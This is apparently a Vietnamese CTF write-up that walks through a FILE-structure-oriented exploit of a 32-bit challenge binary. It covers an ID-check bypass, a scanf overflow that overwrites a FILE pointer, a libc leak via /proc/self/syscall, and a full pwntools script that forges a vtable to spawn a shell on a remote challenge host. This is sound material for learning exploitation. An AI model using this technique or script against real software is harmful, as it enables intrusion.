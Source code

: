 Mở chương trình ta thấy ý đồ của tác giả là muốn ta sử dụng kỹ thuật tấn công FILE_STRUCTURE
Kỹ thuật này đã được phân tich nhiều trên mạng https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique

```C
  v3 = time(0);
  srand(v3);
  for ( i = 0; i <= 15; ++i )
    randomByteID[i] = generateRandomHexValue();
  memset(ID, 0, sizeof(ID));
  printf("Are you Huster? Show me your ID: ");
  custom_read(ID);
  n = strlen(ID);
  if ( strncmp(ID, randomByteID, n) )
  {
    printf("Do you forgot your ID, so badd !!!");
    exit(1);
  }
```
Ta thấy đoạn này chương trình sẽ đọc 16 byte random vô `randomByteID` sau đó cho ta nhập vô `ID` và đem hai cái này so sánh với nhau. Nhưng nó sẽ chỉ so sánh tương ứng với số byte ta nhập vô `ID`.
Vậy ta chỉ cần nhập "\n" để pass qua đoạn này.


```C
 if ( v4 == 4 )
  {
    puts("oh... I forgot asking your name");
    printf("What is your name: ");
    __isoc99_scanf("%s", name);
    printf("See you soon, %s !!!\n", name);
    if ( filePtr )
      fclose(filePtr);
    exit(1);
```
Ta có thể tháy ở option4 ta có lỗi overflow , xem địa chỉ vùng bss ta có thể thấy name sẽ nằm phía trên filePtr và fileContent:

![image](https://github.com/DoQuangPhu/CTF_writeups/assets/93699926/7f65e455-c1e1-4d82-a16f-b2147bf2fa3f)


Vậy ta sẽ overwrite địa chỉ của `filePtr` trỏ đến địa chỉ của một fake FILE_STRUCTURE ta đã chuẩn bị trước đó tại `fileContent`:
Như trong slide mình để link đã phân tích thì khi chương trình gọi một hàm thì chương trình sẽ gọi một function trong bảng `vtable` tương ứng của nó để thực hiện .
Vậy nếu ta có thể làm giả một vtable chứa toàn địa chỉ của system, mà ta thấy khi chưng trình gọi hàm `fclose(filePtr)` thì `filePtr` được truyền vô như là argument duy nhất , vậy nếu ta sửa `filePtr->flag` thành `/bin/sh` thì ta sẽ có shell.
Cấu trúc của một FILE_STRUCTURE như sau :
```C
{ flags: 0x0
 _IO_read_ptr: 0x0
 _IO_read_end: 0x0
 _IO_read_base: 0x0
 _IO_write_base: 0x0
 _IO_write_ptr: 0x0
 _IO_write_end: 0x0
 _IO_buf_base: 0x0
 _IO_buf_end: 0x0
 _IO_save_base: 0x0
 _IO_backup_base: 0x0
 _IO_save_end: 0x0
 markers: 0x0
 chain: 0x0
 fileno: 0x0
 _flags2: 0x0
 _old_offset: 0xffffffff
 _cur_column: 0x0
 _vtable_offset: 0x0
 _shortbuf: 0x0
 unknown1: 0x0
 _lock: 0x0
 _offset: 0xffffffffffffffff
 _codecvt: 0x0
 _wide_data: 0x0
 unknown2: 0x0
 vtable: 0x0}
```
một lưu ý là phần `filePtr->_lock` ta cần nó trỏ đến địa chỉ nào đó NULL , để tránh xảy ra lỗi:

![image](https://github.com/DoQuangPhu/CTF_writeups/assets/93699926/e7de8c85-8214-4e33-ada9-c50905b15d74)

Để có thể có địa chỉ của system thì chúng ta chỉ cần mở một file nào đó chứa thông tin về tiến trình chúng ta đang chạy đê có thể leak libc.
Có thể chọn `/proc/self/maps` hoặc `/proc/self/syscall`

Pwntool đã cung cấp cho chúng ta sẵn `FileStruture` frameWork, ta sẽ sử dụng nó để thuận tiện cho việc exploit của chúng ta:
```python
#!/usr/bin/env python3

from pwn import *
import random
import time
from ctypes import *

context.binary = exe = ELF("./file_scanner_patched",checksec=False)
libc = ELF("./libc_32.so.6",checksec=False)
ld = ELF("./ld-2.23.so",checksec=False)

def GDB():
    gdb.attach(p,gdbscript='''
    b*0x08048CC9
    c
    ''')
    input()
if args.REMOTE:
    p = remote("52.221.218.121", 30565)
else:
    p = process([exe.path])
    GDB()

p.sendafter(b"Are you Huster? Show me your ID: ",b"\n")
def open(name):
    p.sendlineafter(b"Your choice :",b"1")
    p.sendlineafter(b"Enter the filename: ",name)
def read():
    p.sendlineafter(b"Your choice :",b"2")
def show():
    p.sendlineafter(b"Your choice :",b"3")

open(b"/proc/self/syscall")
read()
show()
leak = int(str(p.recvline()[:-1])[66:66+10],16)

print(hex(leak))
libc.address = leak - 0x1ba569
log.info('[+]LIBC BASE:'+hex(libc.address))


file = FileStructure()
file.flags=b'/bin'
file._IO_read_ptr=b"/sh\x00"
file._lock=p32(0x804b2f8)
file.vtable=p32(0x804b178)
payload = b"A"*0x20+p32(exe.sym['fileContent']) + b"A"*(0x20 -4)+bytes(file)+p32(libc.sym['system'])*20
p.sendlineafter(b"Your choice :",b"4")
p.sendlineafter(b"What is your name: ",payload)

p.interactive()

```



